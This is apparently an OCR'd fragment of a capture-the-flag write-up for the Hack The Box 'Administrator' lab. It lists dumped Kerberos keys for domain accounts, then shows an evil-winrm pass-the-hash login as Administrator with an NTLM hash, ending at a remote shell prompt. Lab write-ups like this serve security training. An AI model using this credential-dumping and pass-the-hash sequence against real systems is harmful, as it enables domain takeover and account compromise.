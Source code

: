 ```bash
administrator.htb\emily:aes256-cts-hmac-sha1-96:53063129cd0e59d79b83025fbb4cf89b975a961f996c26cdedc8c6991e92b7c4
administrator.htb\emily:aes128-cts-hmac-sha1-96:fb2a594e5ff3a289fac7a27bbb328218
administrator.htb\emily:des-cbc-md5:804343fb6e0dbc51
administrator.htb\ethan:aes256-cts-hmac-sha1-96:e8577755add681a799a8f9fbcddecc4c3a3296329512bdae2454b6641bd3270f
administrator.htb\ethan:aes128-cts-hmac-sha1-96:e67d5744a884d8b137040d9ec3c6b49f
administrator.htb\ethan:des-cbc-md5:58387aef9d6754fb
administrator.htb\alexander:aes256-cts-hmac-sha1-96:b78d0aa466f36903311913f9caa7ef9cff55a2d9f450325b2fb390fbebdb50b6
administrator.htb\alexander:aes128-cts-hmac-sha1-96:ac291386e48626f32ecfb87871cdeade
administrator.htb\alexander:des-cbc-md5:49ba9dcb6d07d0bf
administrator.htb\emma:aes256-cts-hmac-sha1-96:951a211a757b8ea8f566e5f3a7b42122727d014cb13777c7784a7d605a89ff82
administrator.htb\emma:aes128-cts-hmac-sha1-96:aa24ed627234fb9c520240ceef84cd5e
administrator.htb\emma:des-cbc-md5:3249fba89813ef5d
DC$:aes256-cts-hmac-sha1-96:98ef91c128122134296e67e713b233697cd313ae864b1f26ac1b8bc4ec1b4ccb
DC$:aes128-cts-hmac-sha1-96:7068a4761df2f6c760ad9018c8bd206d
DC$:des-cbc-md5:f483547c4325492a
```

here

```bash
➜  administrator evil-winrm -i administrator.htb -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                     
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

